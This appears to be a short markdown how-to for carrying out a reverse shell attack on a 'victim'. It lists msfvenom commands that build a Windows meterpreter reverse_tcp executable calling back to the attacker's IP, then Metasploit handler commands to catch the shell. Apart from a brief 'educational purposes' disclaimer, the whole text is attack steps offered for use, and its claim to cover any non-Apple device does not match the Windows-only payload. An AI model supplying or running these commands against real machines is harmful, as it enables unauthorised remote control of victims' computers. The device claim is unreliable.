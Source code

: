 # How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** 
		**I'm doing this only for educational purposes.**
		**I'm not responsible of any illegal uses.**
		**The bad use of this Write-up may cause damage to the victim!!**

Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	`ping [IP]`
2. **Create a folder with a basic name and get into that folder.**
	`mkdir [folder-name] && cd [folder-name]`
3. **On the folder created previously execute the command below:**
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe`
4. **Open metasploit and execute this command:** 
	`use exploit/multi/handler`
5. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	`set payload windows/meterpreter/reverse_tcp`
6. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	`set LHOST (YOUR IP)`
	`set LPORT 5555`
7. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	`exploit`
